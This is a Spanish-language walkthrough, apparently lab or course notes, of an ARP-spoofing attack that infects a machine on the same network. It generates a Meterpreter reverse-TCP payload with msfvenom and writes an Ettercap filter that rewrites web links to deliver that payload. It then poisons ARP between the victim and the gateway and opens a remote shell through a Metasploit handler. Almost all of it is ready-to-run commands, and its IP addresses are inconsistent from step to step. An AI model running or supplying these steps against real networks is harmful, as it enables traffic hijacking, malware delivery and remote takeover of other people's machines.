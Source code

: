 
1. Instalamos *Metasplot* siguiente [este tutorial](https://computingforgeeks.com/install-metasploit-framework-on-debian/).
2. Creamos payload:
> `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.48.55 LPORT=5555 -f elf > payload.bin`

3. Lo mejor es subir el payload a tu servidor de apache, mueve el archivo con
> `cp payload.bin /var/www/html/`

4. Creamos `ett.filter`:
> `nano ett.filter`
```bash
if (ip.proto == TCP && tcp.src == 80) {
	replace("a href", "a href=\"http://10.11.49.55/payload.bin\">");
	msg("replaced href.\n");
}
```
5. Configuramos:
> `etterfilter ett.filter -o ig.ef`

6. Activamos el ip_forwarding
> `echo 1 > /proc/sys/net/ipv4/ip_forward`

7. Encendemos el ettercap con el filtro:
> `ettercap -T -F ig.ef -i ens33 -q -M arp:remote //10.11.49.54/ //10.11.48.1/`

8. Llegados a este punto, desde el cliente vemos la pagina y nos descargamos el virus:
>  `curl example.com

> [!Note]
> Podemos hacer tambien un `curl`, y descargar el link del payload con `wget`.

9. Damos permisos de ejecucion 
> `chmod +x payload.bin`


10. Ejecutamos el virus antes de hacer el exploit
> `./payload.bin`


11. entramos en la consola de metasploit:

> `msfconsole`

```bash
use multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 10.11.48.51
set LPORT 5555
set ExitOnSession false
exploit -j -z
```



Ahora estamos dentro del cliente desde el atacante.

> [!Note]
> Usar `sessions 1` si se nos queda pillado 
> Para salir podemos usar: `msf6 exploit(multi/handler) > exit -y`
